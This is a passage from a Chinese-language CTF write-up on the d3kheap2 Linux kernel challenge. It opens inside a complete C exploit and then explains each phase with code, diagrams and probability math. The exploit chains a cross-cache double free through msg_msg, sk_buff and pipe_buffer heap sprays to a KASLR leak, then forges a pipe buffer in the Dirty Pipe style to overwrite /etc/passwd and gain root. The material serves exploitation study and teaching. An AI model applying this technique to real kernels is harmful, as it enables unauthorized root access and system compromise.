     * ============================================================== */
    log.info("Initializing SKB sprayer with %d sockets...", SOCKET_NUM);
    if (skb_spray_init(SOCKET_NUM, SK_BUFF_NUM) < 0) {
        log.error("Failed to initialize SKB sprayer");
        exit(EXIT_FAILURE);
    }
    log.success("SKB sprayer initialized successfully");

    log.success("Heap layout preparation completed successfully");
}

/**
 * trigger_cross_cache_double_free - Trigger cross-cache double free
 *
 * Performs the core vulnerability trigger: allocates and frees chunks
 * in a pattern that creates a cross-cache double free condition. This
 * corrupts the heap and enables further exploitation.
 */
void trigger_cross_cache_double_free(void) {
    log.info("===========================================================");
    log.info("PHASE 3: CROSS-CACHE DOUBLE FREE TRIGGER                   ");
    log.info("===========================================================");

    log.info("Allocating %d driver chunks (kmalloc-2k)...", CHUNK_SPRAY_COUNT);
    for (int i = 0; i < CHUNK_SPRAY_COUNT; i++) {
        if (add_chunk(i) < 0) {
            log.error("Failed to allocate chunk %d", i);
            exit(EXIT_FAILURE);
        }
    }
    log.success("Allocated %d driver chunks", CHUNK_SPRAY_COUNT);

    log.info("Freeing driver chunks (first free)...");
    for (int i = 0; i < CHUNK_SPRAY_COUNT; i++) {
        if (delete_chunk(i) < 0) {
            log.error("Failed to free chunk %d", i);
            exit(EXIT_FAILURE);
        }
    }
    log.success("Freed all driver chunks (first free)");

    log.info("Freeing first half of messages and preparing second messages...");
    memset(&second_msg_data, 0, sizeof(second_msg_data));
    for (int i = 0; i < MSG_QUEUE_NUM / 2; i++) {
        read_msg(msqid[i], &first_msg_data, sizeof(first_msg_data), FIRST_MSG_TYPE);
        fake_msg = (size_t *)&second_msg_data.mtext[FIRST_MSG_SIZE];
        fake_msg[0] = *(size_t *)"BinRacer";
        fake_msg[1] = i;
        fake_msg[2] = *(size_t *)"BinRacer";
        if (write_msg(msqid[i], &second_msg_data,
                     sizeof(second_msg_data), SECOND_MSG_TYPE) < 0) {
            log.error("Failed to send second msg to queue %d!", i);
            exit(EXIT_FAILURE);
        }
    }
    log.success("Prepared second messages for first %d queues", MSG_QUEUE_NUM / 2);

    log.info("Freeing driver chunks again (second free - double free)...");
    for (int i = 0; i < CHUNK_SPRAY_COUNT; i++) {
        if (delete_chunk(i) < 0) {
            log.error("Failed to free chunk %d (second time)", i);
            exit(EXIT_FAILURE);
        }
    }
    log.success("Triggered cross-cache double free");

    log.info("Preparing second messages for remaining queues...");
    for (int i = MSG_QUEUE_NUM / 2; i < MSG_QUEUE_NUM; i++) {
        fake_msg = (size_t *)&second_msg_data.mtext[FIRST_MSG_SIZE];
        fake_msg[0] = *(size_t *)"BinRacer";
        fake_msg[1] = i;
        fake_msg[2] = *(size_t *)"BinRacer";
        if (write_msg(msqid[i], &second_msg_data,
                     sizeof(second_msg_data), SECOND_MSG_TYPE) < 0) {
            log.error("Failed to send second msg to queue %d!", i);
            exit(EXIT_FAILURE);
        }
    }
    log.success("Prepared second messages for remaining %d queues", MSG_QUEUE_NUM / 2);
    log.success("Cross-cache double free triggered successfully");
}

/**
 * find_corrupted_message_queue - Find corrupted message queue
 *
 * Scans all message queues to find the one corrupted by the double free.
 * The corrupted queue will have incorrect message metadata revealing
 * a heap overlap condition.
 *
 * Returns: 0 on success, -1 on failure
 */
int find_corrupted_message_queue(void) {
    log.info("===========================================================");
    log.info("PHASE 4: FIND CORRUPTED MESSAGE QUEUE                      ");
    log.info("===========================================================");

    log.info("Scanning %d message queues for corruption...", MSG_QUEUE_NUM);
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        if (peek_msg(msqid[i], &second_msg_data, sizeof(second_msg_data), 0) < 0) {
            continue;
        }
        leak_data = (size_t *)&second_msg_data.mtext[FIRST_MSG_SIZE];

        if (leak_data[1] != i) {
            victim_qid = i;
            overlap_qid = leak_data[1];

            log.success("Found corrupted message queue!");
            log.success("Victim queue ID: %d", victim_qid);
            log.success("Overlap queue ID: %d", overlap_qid);

            hex_dump2("Corrupted message data (first 0x30 bytes):", leak_data, 0x30);
            return 0;
        }
    }

    log.error("No message queue corruption detected!");
    log.error("Cross-cache double free failed to achieve heap overlap");
    return -1;
}

/**
 * convert_to_uaf - Convert double free to UAF primitive
 *
 * Frees the corrupted message to create a use-after-free condition,
 * then sprays objects to gain control over the freed memory. This
 * transitions from information leak to memory corruption.
 */
void convert_to_uaf(void) {
    log.info("===========================================================");
    log.info("PHASE 5: CONVERT TO USE-AFTER-FREE                        ");
    log.info("===========================================================");

    log.info("Freeing victim message to create UAF on kmalloc-2k...");
    if (read_msg(msqid[victim_qid], &second_msg_data,
                sizeof(second_msg_data), SECOND_MSG_TYPE) < 0) {
        log.error("Failed to read victim message");
        exit(EXIT_FAILURE);
    }
    log.success("Freed victim message (kmalloc-2k)");

    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        if (i == victim_qid || i == overlap_qid) {
            continue;
        }
        if (write_msg(msqid[i], &first_msg_data,
                     sizeof(first_msg_data), FIRST_MSG_TYPE) < 0) {
            log.error("Failed to send first msg to queue %d!", i);
            exit(EXIT_FAILURE);
        }
        break;
    }

    log.info("Spraying SKBs to occupy freed kmalloc-2k chunk...");
    memset(skb_data, 0, sizeof(skb_data));
    if (skb_spray(skb_data, sizeof(skb_data)) < 0) {
        log.error("Failed to spray SKBs");
        exit(EXIT_FAILURE);
    }
    log.success("Sprayed %d SKBs to occupy freed memory", SOCKET_NUM * SK_BUFF_NUM);

    log.info("Freeing overlap queue messages to create space for pipes...");
    if (read_msg(msqid[overlap_qid], &second_msg_data,
                sizeof(second_msg_data), SECOND_MSG_TYPE) < 0) {
        log.error("Failed to read second overlap message");
        exit(EXIT_FAILURE);
    }
    log.success("Freed overlap queue messages");

    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        if (i == victim_qid || i == overlap_qid) {
            continue;
        }
        if (write_msg(msqid[i], &first_msg_data,
                     sizeof(first_msg_data), FIRST_MSG_TYPE) < 0) {
            log.error("Failed to send first msg to queue %d!", i);
            exit(EXIT_FAILURE);
        }
        break;
    }

    log.info("Resizing pipe buffers to occupy freed kmalloc-2k chunks...");
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        resize_pipe_buffer(i, 0x1000 * 32);
    }
    log.success("Resized %d pipe buffers", MAX_PIPE_COUNT);

    log.success("Successfully converted double free to UAF primitive");
}

/**
 * find_corrupted_pipe - Find pipe corrupted by UAF
 *
 * Scans all SKB buffers to find the one that now contains a pipe_buffer
 * structure. This provides kernel pointer leaks and confirms successful
 * memory corruption.
 *
 * Returns: 0 on success, -1 on failure
 */
int find_corrupted_pipe(void) {
    log.info("===========================================================");
    log.info("PHASE 6: LOCATE CORRUPTED PIPE BUFFER                      ");
    log.info("===========================================================");

    log.info("Scanning %d sockets for corrupted pipe_buffer...", SOCKET_NUM);
    for (int i = 0; i < SOCKET_NUM; i++) {
        for (int j = 0; j < SK_BUFF_NUM; j++) {
            if (skb_peek(i, skb_data, sizeof(skb_data)) < 0) {
                continue;
            }

            memcpy(&victim_pipe_buf, skb_data, sizeof(struct pipe_buffer));

            if (victim_pipe_buf.page > vmemmap_base &&
                victim_pipe_buf.ops > kernel_base) {
                victim_sock_idx = i;
                victim_pipe_idx = victim_pipe_buf.offset;
                kernel_offset = victim_pipe_buf.ops - PAGE_CACHE_PIPE_BUF_OPS;
                kernel_base += kernel_offset;

                log.success("Found corrupted pipe buffer in SKB!");
                log.success("Victim socket index: %d", victim_sock_idx);
                log.success("Victim pipe index: %d", victim_pipe_idx);
                log.success("Leaked page pointer: 0x%lx", victim_pipe_buf.page);
                log.success("Leaked ops pointer: 0x%lx", victim_pipe_buf.ops);
                log.success("Kernel offset: 0x%lx", kernel_offset);
                log.success("Kernel base: 0x%lx", kernel_base);

                hex_dump2("Corrupted pipe_buffer in SKB:", skb_data, 0x30);
                return 0;
            }
        }
    }

    log.error("No corrupted pipe buffer found in SKB data!");
    log.error("UAF primitive may have failed or heap layout changed");
    return -1;
}

/**
 * trigger_dirty_pipe - Trigger Dirty Pipe vulnerability
 *
 * Replaces the corrupted pipe_buffer's ops pointer to point to anonymous
 * pipe operations, then writes to the pipe to trigger Dirty Pipe and
 * overwrite the page cache containing /etc/passwd.
 */
void trigger_dirty_pipe(void) {
    log.info("===========================================================");
    log.info("PHASE 7: TRIGGER DIRTY PIPE VULNERABILITY                 ");
    log.info("===========================================================");

    log.info("Freeing victim SKB to release pipe_buffer...");
    for (int j = 0; j < SK_BUFF_NUM; j++) {
        if (skb_read(victim_sock_idx, skb_data, sizeof(skb_data)) < 0) {
            log.error("Failed to read from victim SKB");
            exit(EXIT_FAILURE);
        }
    }
    log.success("Freed victim SKB, pipe_buffer now free for modification");

    log.info("Preparing malicious pipe_buffer for Dirty Pipe...");
    victim_pipe_buf.offset = 0;
    victim_pipe_buf.len = 0;
    victim_pipe_buf.ops = kernel_offset + ANON_PIPE_BUF_OPS;
    victim_pipe_buf.flags = 0x10;  // PIPE_BUF_FLAG_CAN_MERGE flag

    memcpy(skb_data, &victim_pipe_buf, sizeof(struct pipe_buffer));
    hex_dump2("Malicious pipe_buffer to spray:", skb_data, sizeof(struct pipe_buffer) + 0x8);

    log.info("Spraying malicious pipe_buffer to reclaim freed memory...");
    if (skb_spray(skb_data, sizeof(skb_data)) < 0) {
        log.error("Failed to spray malicious pipe_buffer");
        exit(EXIT_FAILURE);
    }
    log.success("Sprayed malicious pipe_buffer with anonymous pipe ops");

    log.info("Triggering Dirty Pipe by writing to corrupted pipe...");
    log.info("Writing evil data to overwrite /etc/passwd in page cache...");
    if (write(pipe_fds[victim_pipe_idx][1], evil_data, sizeof(evil_data)) < 0) {
        log.error("Failed to write to corrupted pipe");
        exit(EXIT_FAILURE);
    }

    log.success("Dirty Pipe triggered successfully!");
}

/**
 * escalate_privileges - Escalate to root privileges
 *
 * Triggers privilege escalation by executing su command. The modified
 * /etc/passwd file allows root access without password.
 */
void escalate_privileges(void) {
    log.info("===========================================================");
    log.info("PHASE 8: PRIVILEGE ESCALATION                              ");
    log.info("===========================================================");

    log.info("Attempting privilege escalation...");
    log.info("Modified /etc/passwd should allow root access without password");

    system("su -c 'cat /root/flag' && su");

    log.info("===========================================================");
    log.info("EXPLOIT COMPLETED SUCCESSFULLY                            ");
    log.info("===========================================================");
}

int main(int argc, char **argv, char **envp) {
    log.info("===========================================================");
    log.info("D3KHEAP2 EXPLOIT - CROSS-CACHE DOUBLE FREE TO DIRTY PIPE   ");
    log.info("===========================================================");

    setup_environment();
    prepare_heap_layout();
    trigger_cross_cache_double_free();

    if (find_corrupted_message_queue() < 0) {
        log.error("Failed to find corrupted message queue");
        exit(EXIT_FAILURE);
    }

    convert_to_uaf();

    if (find_corrupted_pipe() < 0) {
        log.error("Failed to find corrupted pipe buffer");
        exit(EXIT_FAILURE);
    }

    trigger_dirty_pipe();
    escalate_privileges();
    return 0;
}
```

### 5-1. 整体架构与优化设计

本章节展示的d3kheap2利用代码采用了更加复杂的跨缓存利用技术，结合System V消息队列、网络套接字和管道子系统，构建了一个更加稳健的利用链。相比基础版本，这个进阶版本在多个方面进行了优化和改进，提高了利用的成功率和可靠性。


```mermaid
graph TD
    A[开始] --> B[阶段1: 环境建立]
    B --> C[阶段2: 堆布局准备]
    C --> D[阶段3: 跨缓存双重释放触发]
    D --> E[阶段4: 寻找被污染消息队列]
    E --> F[阶段5: 转换为UAF原语]
    F --> G[阶段6: 定位被污染管道]
    G --> H[阶段7: 触发Dirty Pipe]
    H --> I[阶段8: 权限提升]
    I --> J[完成]

    style A fill:#f9f,stroke:#333,stroke-width:2px
    style J fill:#9f9,stroke:#333,stroke-width:2px
```

### 5-2. 环境建立与资源初始化

第一阶段建立执行环境，为后续复杂的内存操作提供稳定的基础。这个阶段进行了精细的系统资源配置和优化。

**核心实现**：

```c
void setup_environment(void) {
    struct rlimit rl = {0};

    // 提高文件描述符限制，为大规模资源分配创造条件
    rl.rlim_cur = 4096;
    rl.rlim_max = 4096;
    if (setrlimit(RLIMIT_NOFILE, &rl) == -1) {
        log.error("Failed to expand file descriptor limit!");
        exit(EXIT_FAILURE);
    }

    // CPU核心绑定，优化内存访问模式和时序控制
    bind_core(0);

    // 打开漏洞设备接口
    dev_fd = open("/proc/d3kheap2", O_RDWR);

    // 打开目标文件用于后续操作
    victim_fd = open("/etc/passwd", O_RDONLY);
}
```

**技术优化**：

1. **资源限制扩展**：将文件描述符限制提高到4096，为大规模消息队列、套接字和管道的创建提供充足资源。这在原始限制1024的基础上增加了4倍容量。

2. **CPU亲和性优化**：通过`bind_core(0)`将进程绑定到CPU核心0。这有多个技术优势：
    - 减少多核缓存一致性开销
    - 避免进程在CPU间迁移导致的缓存冷启动
    - 提高内存访问时序的可预测性
    - 减少多核竞争条件

3. **系统资源句柄获取**：
    - 打开`/proc/d3kheap2`获取漏洞设备控制接口
    - 打开`/etc/passwd`为目标文件修改提供访问路径

**数学建模**：设系统有N个CPU核心，进程调度时间片为T。绑定到单核后，调度延迟的方差从多核环境的σ²减少到单核环境的σ²/N，使得内存操作时序更加可预测。这可以通过以下公式表示：

$$
\text{Var}(\text{latency}_{\text{single}}) = \frac{\text{Var}(\text{latency}_{\text{multi}})}{N}
$$

其中N是CPU核心数。在典型的8核系统中，调度延迟方差减少为原来的1/8。

### 5-3. 堆布局准备与多子系统协调

第二阶段创建并初始化所有必要的通信通道，为后续的精细堆控制建立基础设施。这个阶段展示了多子系统协调的技术能力。

**技术实现**：

```c
void prepare_heap_layout(void) {
    // 1. 管道子系统初始化
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        create_pipe_pair(i);
    }

    // 2. 消息队列子系统初始化
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        msqid[i] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    }

    // 3. 网络子系统初始化
    skb_spray_init(SOCKET_NUM, SK_BUFF_NUM);
}
```


```mermaid
sequenceDiagram
    participant 用户空间
    participant 管道子系统
    participant 消息队列子系统
    participant 网络子系统

    用户空间->>管道子系统: 创建240个管道对
    管道子系统-->>用户空间: 返回管道描述符

    用户空间->>消息队列子系统: 创建4096个消息队列
    消息队列子系统-->>用户空间: 返回消息队列ID

    用户空间->>网络子系统: 初始化64个套接字
    网络子系统-->>用户空间: 套接字初始化完成

    用户空间->>管道子系统: 将/etc/passwd映射到所有管道
    用户空间->>管道子系统: 执行部分读取创建唯一指纹

    用户空间->>消息队列子系统: 发送初始消息填充队列
    用户空间->>消息队列子系统: 发送第二波消息优化布局
```

**管道子系统技术细节**：

1. **管道指纹创建**：通过`splice`将`/etc/passwd`映射到所有管道，然后执行部分读取操作，为每个管道创建唯一的`offset`和`len`组合。这创建了一个"指纹"模式，便于后续识别特定的管道：

```c
for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    off_t offset = 0;
    splice(victim_fd, &offset, pipe_fds[i][1], NULL, 0x1000, 0);
    read(pipe_fds[i][0], pipe_data, i);  // 创建唯一偏移量
}
```

2. **缓冲区大小控制**：管道缓冲区初始大小较小，后续会通过`fcntl`调整以分配到目标缓存。

**消息队列子系统技术细节**：

1. **多阶段消息发送**：采用两阶段消息发送策略：
    - 第一阶段：发送大小为`FIRST_MSG_SIZE`（0x1000 - sizeof(struct msg_msg)）的消息
    - 第二阶段：发送大小为`SECOND_MSG_SIZE`（0x1000 - sizeof(struct msg_msg) + 0x800 - sizeof(struct msg_msgseg)）的消息

2. **内存布局控制**：通过控制消息大小，精确控制分配的内核缓存。`FIRST_MSG_SIZE`对应kmalloc-4k缓存，`SECOND_MSG_SIZE`对应更复杂的复合消息结构。

**网络子系统技术细节**：

1. **套接字对创建**：创建64个Unix域套接字对，每个套接字分配1个`sk_buff`结构。虽然数量较少，但通过精确的时序控制，仍能实现有效的内存操作。

2. **缓冲区管理**：`sk_buff`结构的分配和释放通过套接字读写操作精确控制，为后续的UAF条件创建提供基础。

**资源消耗分析**：

```
资源消耗统计:
- 文件描述符: 240×2 + 64×2 + 2 ≈ 610 (在4096限制内)
- 消息队列: 4096个
- 套接字: 64对
- 管道: 240对
- 内核内存: 约100MB (消息队列占主要部分)
```

### 5-4. 跨缓存双重释放触发

第三阶段是核心利用技术，通过精确的堆操作触发跨缓存双重释放漏洞。这一阶段展示了复杂的内存状态控制技术。

**技术实现流程**：


```mermaid
flowchart TD
    A[开始] --> B[堆喷256个kmalloc-2k对象]
    B --> C[第一次释放所有对象]
    C --> D[释放前半部分消息队列]
    D --> E[发送复合消息]
    E --> F[触发双重释放]
    F --> G[发送剩余复合消息]
    G --> H[跨缓存UAF条件建立]

    B --> B1[add_chunk 256次]
    C --> C1[delete_chunk 256次]
    D --> D1[read_msg释放前半队列]
    E --> E1[write_msg发送复合消息]
    F --> F1[再次delete_chunk触发漏洞]
    G --> G1[write_msg完成布局]
```

**核心代码逻辑**：

```c
void trigger_cross_cache_double_free(void) {
    // 1. 堆喷d3kheap2对象
    for (int i = 0; i < CHUNK_SPRAY_COUNT; i++) {
        add_chunk(i);
    }

    // 2. 第一次释放，创建内存空洞
    for (int i = 0; i < CHUNK_SPRAY_COUNT; i++) {
        delete_chunk(i);
    }

    // 3. 释放前半部分消息队列，优化内存布局
    for (int i = 0; i < MSG_QUEUE_NUM / 2; i++) {
        read_msg(msqid[i], &first_msg_data, sizeof(first_msg_data), FIRST_MSG_TYPE);
        // 发送复合消息
        write_msg(msqid[i], &second_msg_data, sizeof(second_msg_data), SECOND_MSG_TYPE);
    }

    // 4. 触发双重释放
    for (int i = 0; i < CHUNK_SPRAY_COUNT; i++) {
        delete_chunk(i);  // 第二次释放
    }

    // 5. 发送剩余复合消息
    for (int i = MSG_QUEUE_NUM / 2; i < MSG_QUEUE_NUM; i++) {
        write_msg(msqid[i], &second_msg_data, sizeof(second_msg_data), SECOND_MSG_TYPE);
    }
}
```

**内存状态演变**：

```
阶段3.1: 堆喷d3kheap2对象
操作: 分配256个kmalloc-2k对象
结果: 活跃对象计数: 256
空闲列表: 空

阶段3.2: 第一次释放
操作: 释放所有256个对象
结果: 活跃对象计数: 0
空闲列表: 256个对象

阶段3.3: 优化消息队列布局
操作: 释放前2048个消息队列的消息，发送复合消息
结果: 消息队列重新布局，创建内存空洞模式

阶段3.4: 触发双重释放
操作: 再次释放d3kheap2对象
结果: 同一地址被释放两次，形成双重释放条件

阶段3.5: 完成消息队列布局
操作: 发送剩余复合消息
结果: 消息队列完全重新布局，为后续利用创造条件
```

**技术原理**：

1. **双重释放机制**：由于d3kheap2驱动程序的引用计数错误，第一次释放后引用计数为1，第二次释放时递减到0并再次释放内存，形成双重释放。

2. **跨缓存影响**：双重释放的对象在`d3kheap2_cache`中，但通过后续的堆喷操作，这个内存可能被其他子系统（如消息队列）重用，形成跨缓存类型混淆。

3. **消息队列重新布局**：通过释放和重新发送消息，优化消息队列在内存中的布局。复合消息的大小和结构经过精心设计，以最大化与目标缓存的对齐概率。

**数学分析**：设空闲列表包含m个对象，堆喷n个消息队列消息。目标地址A被消息队列重用的概率为：

$$
P = 1 - \left(1 - \frac{1}{m}\right)^n
$$

当m=256，n=4096时：

$$
P = 1 - \left(1 - \frac{1}{256}\right)^{4096} \approx 1 - e^{-16} \approx 0.9999999
$$

几乎必然成功。实际中由于竞争和其他分配，概率略低但仍足够高。

### 5-5. 被污染消息队列检测

第四阶段检测双重释放导致的内存污染，通过扫描消息队列寻找异常状态。这一阶段实现了内存污染的检测和验证。

**技术实现**：

```c
int find_corrupted_message_queue(void) {
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        if (peek_msg(msqid[i], &second_msg_data, sizeof(second_msg_data), 0) < 0) {
            continue;
        }

        leak_data = (size_t *)&second_msg_data.mtext[FIRST_MSG_SIZE];

        // 检测异常：消息索引不匹配
        if (leak_data[1] != i) {
            victim_qid = i;
            overlap_qid = leak_data[1];

            log.success("Found corrupted message queue!");
            log.success("Victim queue ID: %d", victim_qid);
            log.success("Overlap queue ID: %d", overlap_qid);

            hex_dump2("Corrupted message data:", leak_data, 0x30);
            return 0;
        }
    }

    return -1;
}
```


```mermaid
sequenceDiagram
    participant 用户空间
    participant 消息队列子系统
    participant 内核内存

    用户空间->>消息队列子系统: peek_msg检查消息
    消息队列子系统->>内核内存: 读取消息数据
    内核内存-->>消息队列子系统: 返回消息内容
    消息队列子系统-->>用户空间: 返回消息数据

    loop 4096个消息队列
        用户空间->>用户空间: 分析消息内容
        用户空间->>用户空间: 检查索引一致性

        alt 发现索引不一致
            用户空间->>用户空间: 记录受害者队列ID
            用户空间->>用户空间: 记录重叠队列ID
            用户空间->>用户空间: 内存污染确认
        else 索引一致
            用户空间->>用户空间: 继续检查下一个
        end
    end
```

**检测原理**：

1. **消息结构设计**：复合消息的第二个部分包含标识信息：

    ```c
    fake_msg[0] = *(size_t *)"BinRacer";  // 魔术字
    fake_msg[1] = i;                      // 队列索引
    fake_msg[2] = *(size_t *)"BinRacer";  // 魔术字
    ```

2. **污染检测逻辑**：正常情况下，`leak_data[1]`应该等于当前队列索引i。如果不相等，说明内存被污染，消息数据被其他内存内容覆盖。

3. **信息提取**：从污染数据中可以提取：
    - 受害者队列ID：当前检测的队列索引
    - 重叠队列ID：污染数据中提取的索引
    - 可能的其他内核数据

**内存布局分析**：

```
正常消息队列内存布局:
+----------------+----------------+----------------+
| 消息头         | 第一部分数据   | 第二部分数据   |
| (msg_msg结构)  | (0x1000大小)   | (复合部分)     |
+----------------+----------------+----------------+

污染后的内存布局:
+----------------+----------------+----------------+
| 原始消息头     | 被污染数据     | 被污染数据     |
| (可能部分损坏) | (来自其他对象) | (来自其他对象) |
+----------------+----------------+----------------+

检测关键: 第二部分数据中的索引字段与预期不符
```

**技术优势**：

1. **非侵入式检测**：通过`peek_msg`系统调用读取消息而不移除消息，避免改变内存状态。

2. **高可靠性**：通过魔术字和索引双重验证，减少误报。

3. **信息丰富**：污染数据可能包含有用的内核信息，如指针、标志位等。

**误报分析**：设消息队列总数为N=4096，每个消息的索引字段有M=4096种可能值。随机匹配的概率为：

$$
P_{\text{false}} = \frac{1}{M} = \frac{1}{4096} \approx 0.00024
$$

这个概率足够低，可以可靠地检测真正的内存污染。

### 5-6. 转换为Use-After-Free原语

第五阶段将检测到的内存污染转换为可控的Use-After-Free原语。这是从信息泄露到内存控制的关键转换。

**技术实现**：

```c
void convert_to_uaf(void) {
    // 1. 释放受害者消息，创建UAF条件
    read_msg(msqid[victim_qid], &second_msg_data, sizeof(second_msg_data), SECOND_MSG_TYPE);

    // 2. 发送新消息填充部分空洞
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        if (i == victim_qid || i == overlap_qid) continue;
        write_msg(msqid[i], &first_msg_data, sizeof(first_msg_data), FIRST_MSG_TYPE);
        break;
    }

    // 3. 堆喷sk_buff占用释放的内存
    skb_spray(skb_data, sizeof(skb_data));

    // 4. 释放重叠队列消息
    read_msg(msqid[overlap_qid], &second_msg_data, sizeof(second_msg_data), SECOND_MSG_TYPE);

    // 5. 发送另一个消息优化布局
    for (int i = 0; i < MSG_QUEUE_NUM; i++) {
        if (i == victim_qid || i == overlap_qid) continue;
        write_msg(msqid[i], &first_msg_data, sizeof(first_msg_data), FIRST_MSG_TYPE);
        break;
    }

    // 6. 调整管道缓冲区大小
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        resize_pipe_buffer(i, 0x1000 * 32);
    }
}
```

**内存状态管理**：

```
阶段5.1: 释放受害者消息
原始状态: 消息队列包含被污染的消息
操作: 读取并释放受害者消息
结果: 创建kmalloc-2k大小的内存空洞

阶段5.2: 部分填充空洞
操作: 发送一个新消息到非受害者队列
结果: 部分填充内存空洞，控制内存布局

阶段5.3: 堆喷sk_buff
操作: 分配sk_buff结构
结果: sk_buff可能占用释放的内存

阶段5.4: 释放重叠队列
操作: 读取并释放重叠队列消息
结果: 创建另一个内存空洞

阶段5.5: 优化布局
操作: 发送另一个新消息
结果: 进一步优化内存布局

阶段5.6: 调整管道缓冲区
操作: 调整所有管道缓冲区大小
结果: pipe_buffer结构可能分配到目标内存区域
```

**技术要点**：

1. **逐步转换**：不是一次性完成所有操作，而是分步骤逐步转换，每个步骤都进行内存布局优化。

2. **竞争控制**：通过快速连续的操作减少其他内核活动的影响，提高UAF条件的稳定性。

3. **多对象类型**：涉及消息队列、网络套接字和管道子系统，展示了跨子系统内存控制能力。

**UAF条件分析**：设目标地址A被释放，空闲列表包含m个对象。通过堆喷n个sk_buff，至少一个sk_buff分配到地址A的概率为：

$$
P_{\text{skb}} = 1 - \left(1 - \frac{1}{m}\right)^n
$$

类似地，pipe_buffer分配到目标地址的概率也遵循相同模型。通过大量堆喷，可以使概率接近1。

### 5-7. 被污染管道定位与信息泄露

第六阶段定位被污染的管道缓冲区，并从重叠结构中提取内核地址信息。这是实现Dirty Pipe的关键前提。

**技术实现**：

```c
int find_corrupted_pipe(void) {
    for (int i = 0; i < SOCKET_NUM; i++) {
        for (int j = 0; j < SK_BUFF_NUM; j++) {
            if (skb_peek(i, skb_data, sizeof(skb_data)) < 0) {
                continue;
            }

            memcpy(&victim_pipe_buf, skb_data, sizeof(struct pipe_buffer));

            // 验证提取的指针有效性
            if (victim_pipe_buf.page > vmemmap_base &&
                victim_pipe_buf.ops > kernel_base) {
                victim_sock_idx = i;
                victim_pipe_idx = victim_pipe_buf.offset;
                kernel_offset = victim_pipe_buf.ops - PAGE_CACHE_PIPE_BUF_OPS;
                kernel_base += kernel_offset;

                log.success("Found corrupted pipe buffer in SKB!");
                log.success("Victim socket index: %d", victim_sock_idx);
                log.success("Victim pipe index: %d", victim_pipe_idx);
                log.success("Leaked page pointer: 0x%lx", victim_pipe_buf.page);
                log.success("Leaked ops pointer: 0x%lx", victim_pipe_buf.ops);
                log.success("Kernel offset: 0x%lx", kernel_offset);
                log.success("Kernel base: 0x%lx", kernel_base);

                return 0;
            }
        }
    }

    return -1;
}
```


```mermaid
sequenceDiagram
    participant 用户空间
    participant 网络子系统
    participant 内核内存

    用户空间->>网络子系统: skb_peek读取sk_buff数据
    网络子系统->>内核内存: 读取套接字缓冲区
    内核内存-->>网络子系统: 返回可能包含pipe_buffer的数据
    网络子系统-->>用户空间: 返回sk_buff内容

    loop 64个套接字
        用户空间->>用户空间: 解析数据为pipe_buffer结构
        用户空间->>用户空间: 验证指针有效性

        alt 发现有效的pipe_buffer
            用户空间->>用户空间: 记录受害者套接字索引
            用户空间->>用户空间: 记录管道索引
            用户空间->>用户空间: 计算内核偏移和基址
            用户空间->>用户空间: 信息泄露完成
        else 无效数据
            用户空间->>用户空间: 继续检查下一个
        end
    end
```

**pipe_buffer结构分析**：

```
pipe_buffer结构 (0x28字节):
+-------+---------------------+---------------------+
| 偏移  | 字段                | 大小                |
+-------+---------------------+---------------------+
| 0x00  | struct page *page   | 8字节               |
| 0x08  | unsigned int offset | 4字节               |
| 0x0C  | unsigned int len    | 4字节               |
| 0x10  | pipe_buf_operations*| 8字节               |
| 0x18  | unsigned int flags  | 4字节               |
| 0x1C  | unsigned int        | 4字节填充           |
| 0x20  | unsigned long private| 8字节              |
+-------+---------------------+---------------------+

关键字段:
- page: 文件页面指针，用于验证内存区域
- ops: 操作函数表指针，用于计算内核基址
- offset: 在管道指纹阶段设置，用作管道索引
- flags: 控制缓冲区行为，后续会修改
```

**指针验证逻辑**：

1. **page指针验证**：`victim_pipe_buf.page > vmemmap_base`确保page指针指向有效的内核内存区域。`vmemmap_base`是内核虚拟内存映射区域的起始地址。

2. **ops指针验证**：`victim_pipe_buf.ops > kernel_base`确保ops指针指向内核代码区域。`kernel_base`是内核镜像的基址。

3. **双重验证**：同时验证两个指针，提高检测的可靠性，减少误报。

**KASLR绕过计算**：

从泄露的`ops`指针可以计算内核偏移和实际基址：

```c
kernel_offset = victim_pipe_buf.ops - PAGE_CACHE_PIPE_BUF_OPS;
kernel_base += kernel_offset;
```

其中：

- `PAGE_CACHE_PIPE_BUF_OPS`是编译时确定的`page_cache_pipe_buf_ops`符号地址
- `kernel_offset`是KASLR引入的随机偏移
- `kernel_base`是修正后的实际内核基址

**信息泄露内容**：

1. **管道索引**：`victim_pipe_buf.offset`包含管道索引，这是在阶段2通过部分读取创建的"指纹"。

2. **文件页面指针**：`victim_pipe_buf.page`指向`/etc/passwd`文件的页面缓存。

3. **内核符号地址**：`victim_pipe_buf.ops`提供内核代码段地址，用于绕过KASLR。

4. **内存布局信息**：通过分析整个结构，可以了解当前内存布局状态。

### 5-8. Dirty Pipe漏洞触发

第七阶段触发Dirty Pipe漏洞，通过修改管道缓冲区的关键字段实现文件修改。这是利用链的最终执行阶段。

**技术实现**：

```c
void trigger_dirty_pipe(void) {
    // 1. 释放受害者sk_buff
    for (int j = 0; j < SK_BUFF_NUM; j++) {
        skb_read(victim_sock_idx, skb_data, sizeof(skb_data));
    }

    // 2. 构造恶意pipe_buffer
    victim_pipe_buf.offset = 0;
    victim_pipe_buf.len = 0;
    victim_pipe_buf.ops = kernel_offset + ANON_PIPE_BUF_OPS;  // 修改ops指针
    victim_pipe_buf.flags = 0x10;  // 设置PIPE_BUF_FLAG_CAN_MERGE标志

    // 3. 堆喷恶意pipe_buffer
    memcpy(skb_data, &victim_pipe_buf, sizeof(struct pipe_buffer));
    skb_spray(skb_data, sizeof(skb_data));

    // 4. 触发Dirty Pipe
    write(pipe_fds[victim_pipe_idx][1], evil_data, sizeof(evil_data));
}
```

```mermaid
sequenceDiagram
    participant 用户空间
    participant 网络子系统
    participant 管道子系统
    participant 页面缓存

    用户空间->>网络子系统: 释放受害者sk_buff
    网络子系统->>内核内存: 释放sk_buff内存

    用户空间->>用户空间: 构造恶意pipe_buffer
    用户空间->>用户空间: 设置CAN_MERGE标志
    用户空间->>用户空间: 修改ops指针为匿名管道操作

